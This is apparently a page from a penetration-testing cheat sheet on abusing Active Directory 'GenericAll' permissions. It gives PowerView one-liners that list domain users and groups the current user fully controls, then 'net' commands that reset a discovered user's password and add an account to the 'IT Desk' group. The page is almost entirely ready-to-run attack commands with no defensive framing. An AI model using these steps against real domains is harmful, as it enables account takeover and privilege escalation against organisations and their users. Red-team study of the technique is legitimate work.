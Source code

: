# Abuse GenericAll

Find domain users that current user has `GenericAll` access right to:

```text
PowerView3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

![](../../../../.gitbook/assets/image%20%28270%29.png)

The attacker can change password of discovered users:

```text
Cmd > net user snovvcrash Passw0rd! /domain
```

Find domain groups that current user has `GenericAll` access right to:

```text
PowerView3 > Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

The attacker can add users to discovered groups:

```text
Cmd > net group "IT Desk" snovvcrash /add /domain
```

